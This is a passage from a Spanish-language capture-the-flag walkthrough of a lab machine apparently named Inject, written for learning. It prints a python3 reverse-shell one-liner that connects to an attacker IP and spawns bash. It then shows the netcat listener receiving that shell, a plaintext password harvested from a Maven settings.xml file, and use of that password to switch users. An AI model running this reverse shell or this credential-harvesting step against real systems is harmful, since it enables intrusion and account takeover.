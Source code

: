 ```python
export RHOST="10.10.14.170";export RPORT=443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
En nuestra máquina nos ponemos en escucha por el puerto 443 y nos debe llegar.

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.170] from (UNKNOWN) [10.129.178.241] 48474
frank@inject:/$
```
Aplicamos tratamiento a la [TTY](https://h4ckerlite.github.io/posts/tty/).

## Migración de usuario
En la carpeta personal del usuario listamos carpetas escondidad

```bash
frank@inject:~$ ls -a
.  ..  .bash_history  .bashrc  .cache  .local  .m2  .profile
frank@inject:~$ 
```
la carpeta **.m2** nos llama la atención, listamos su contenido


```bash
frank@inject:~$ ls .m2
settings.xml
frank@inject:~$ cat .m2/*
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
frank@inject:~$ 

```

Vemos la contraseña del usuario **phil**, migramos...

```bash
frank@inject:~$ su phil
Password:DocPhillovestoInject123 
phil@inject:/home/frank$ 
```
